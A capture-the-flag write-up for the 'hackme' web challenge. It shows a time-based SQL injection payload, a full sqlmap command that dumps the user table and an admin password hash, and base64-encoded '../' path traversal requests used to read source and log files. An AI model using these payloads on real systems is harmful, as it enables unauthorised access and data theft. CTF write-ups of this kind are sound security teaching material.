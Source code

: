 # Writeup for hackme WEB (400)

> Solves: 48
> 
> Hack me, please

The website contain only login form, without any other suspected content, so first impulse, sql injection.

![Screenshot_1.png](Screenshot_1.png)

We have seen only one returned value `User Name or Password incorrect` if sql query was correct. Checked time based SQLi in login input `a' OR if(1=1, sleep(10), false) OR 'a` positive, because execute this taken ~10 seconds.
We had assumed that was blind SQLi. (After CTF, another teams has shown that it was simple SQLi, blindSQLi was not necessary)

We have not had a lot of time, so we use sqlmap. Form had csrf token `<input type='hidden' name='user_token' value='40dbd5c24bcba5a579557884b60e50d8' />`, but that was not a problem for sqlmap with two extra params `--csrf-token="user_token" --csrf-url="http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/"`

In a few seconds, we got, what we need. Command `python sqlmap.py -u "http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/login.php" --csrf-token="user_token" --csrf-url="http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/" --data="username=a&password=a&Login=Login&user_token=" --dump`

```
Database: hack.me
Table: user
[1 entry]
+--------+-----------+----------+----------------------------------+
| userid | sessionid | username | password                         |
+--------+-----------+----------+----------------------------------+
| 1      | aaa       | admin    | 26a340b11385ebc2db3b462ec2fdfda4 |
+--------+-----------+----------+----------------------------------+
```

MD5 existed in web databases

![Screenshot_2.png](Screenshot_2.png)

After login for `admin` `catchme8`, unfortunately not came out flag, but interesting dashboard.

![Screenshot_3.png](Screenshot_3.png)

We did notice with great interest, that one menu link `help.pdf` had this route: `http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/file.php?page=aGVscC5wZGY`. `aGVscC5wZGY` after base64 decode was `help.pdf`, looked like LFI. 

We encode `../index.php` to base64 `Li4vaW5kZXgucGhw`, open `http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/file.php?page=Li4vaW5kZXgucGhw`, and get source of `index.php` into downloaded .pdf file.

One line in `index.php` was `shpaMessagePush("error: saved in sensitive_log_881027.txt");`. Interestingly, we again encode `../sensitive_log_881027.txt` to `Li4vc2Vuc2l0aXZlX2xvZ184ODEwMjcudHh0` and get this file by url `http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/file.php?page=Li4vc2Vuc2l0aXZlX2xvZ184ODEwMjcudHh0`. 

Downloaded file contained FLAG
